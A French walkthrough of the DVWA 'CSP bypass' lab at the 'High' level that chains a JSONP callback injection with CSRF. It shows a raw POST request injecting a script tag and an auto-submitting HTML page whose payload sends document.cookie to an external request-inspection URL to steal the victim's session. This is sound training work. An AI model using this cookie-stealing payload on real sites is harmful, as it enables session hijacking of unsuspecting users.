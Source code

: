 # Niveau "High"

Le niveau "High" permet de résoudre une opération mathématique grâce à un appel JSONP :

![](../../../../.gitbook/assets/70f2e8752b05cad71757484179b748c5.png)

La méthode de callback se nomme `solveSum()` :

![](../../../../.gitbook/assets/0985bcfa7dbd7e1e9ab39c4e6eabcf5c.png)

Et la réponse permet de résoudre l'opération :

![](../../../../.gitbook/assets/bfadd48cbdebc11e02195c4b87a1d28d.png)

Dans un premier temps, j'ai intercepté la requête du callback afin d'y injecter un bout de JS :

![](../../../../.gitbook/assets/c6a8393d825a817647d8f8cf951ff9fc.png)

Cela semble fonctionner :

![](../../../../.gitbook/assets/14e7d64309d7f3a41bd7dc31ae7e49dd.png)

Le problème est qu'il n'est pas possible de soumettre notre payload à la victime car le `Content-Type` de la réponse est de type `application/json` et donc non exploitable en l'état :

![](../../../../.gitbook/assets/56accc4f100b01e32ab4c66a8438505a.png)

![](../../../../.gitbook/assets/f9b5e242aa1f34ade2d68c1f6327903b.png)

Etant bloqué mais voulant aller plus loin, je suis allé voir ce que d'autres personnes avaient réussi à faire. Je suis tombé sur ce [writeup](http://halazi.xin/2019/01/09/DVWA-CSP-BYPASS/) qui suit la démarche suivante :

* Analyser les sources du challenge permet d'identifier un endpoint de type **`POST`** autorisant d'inclure une donnée dans le page csp :

![](../../../../.gitbook/assets/ccf82f8a7c8b4513a015b1dcd13c8c9f.png)

La requête suivante devient donc possible :

```
POST /vulnerabilities/csp/ HTTP/1.1
Host: 192.168.56.203:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.108 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: http://192.168.56.203:8080/security.php
Accept-Encoding: gzip, deflate
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: PHPSESSID=b4rgbmn3q7l71tide90m809bj3; security=high
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 71

include=<script src="source/jsonp.php?callback=alert(1);"></script>
```

{% hint style="warning" %}
Attention à ne pas oublier le Content-Type pour la requête POST
{% endhint %}

Et en effet, le script est bien exécuté :

![](../../../../.gitbook/assets/14b35a2694d9784692b57fd9be32eff2.png)

Le problème ici est que pour connaitre ce endpoint en **`POST`** il fallait regarder les sources (ou le deviner). En général je préfère ne regarder les sources qu'après avoir terminé le challenge.

Bien que l'auteur du writeup n'indique pas comment, il faut maintenant trouver un vecteur d'attaque contre la victime. J'utilise à nouveau l'exploitation de la faille CSRF, présente également sur ce niveau, en hébergeant le script malicieux suivant sur mon serveur :

```markup
<html>
    <head>
        <title>Exploitation POST XSS</title>
    </head>

    <body>
        <p>Coucou !</p>
        <form action="http://192.168.56.203:8080/vulnerabilities/csp/" method="POST" name="postExploitXSS">
            <input type="text" name="include" value="<script src=&quot;source/jsonp.php?callback=fetch('https://requestinspector.com/inspect/01dt9afwk20cb3xj8f1dwfdj6b?cookie='%2Bdocument.cookie);&quot;></script>">
            <button type="submit">Envoyer le message</button>
        </form>

        <script>
            document.forms['postExploitXSS'].submit();
        </script>
    </body>
</html>
```

{% hint style="info" %}
Attention à l'encodage de certains caractères spéciaux au niveau de la valeur à envoyer
{% endhint %}

Lorsque la victime (authentifiée) visite ma page malicieuse, je subtilise son jeton de session :

![](../../../../.gitbook/assets/07f3f7439e05a98dcb2a5eb628e005f6.png)
